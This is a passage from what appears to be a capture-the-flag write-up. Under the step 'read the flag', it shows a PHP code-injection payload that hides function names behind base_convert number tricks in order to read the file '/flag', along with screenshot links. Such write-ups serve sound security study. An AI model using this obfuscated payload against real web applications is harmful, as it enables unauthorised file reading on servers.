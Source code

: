 [![](assets/1698897244-545bcef7b5a8504d678d9367f702c424.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191027234136-42b38e6c-f8d0-1.png)  
*2、读取flag*

payload

```plain
var_dump(base_convert(2146934604002,10,36)(chr(47).base_convert(25254448,10,36)))
```

[![](assets/1698897244-df31d36aadca0d490a968230d4fd0d99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191027234157-4efd00ae-f8d0-1.png)
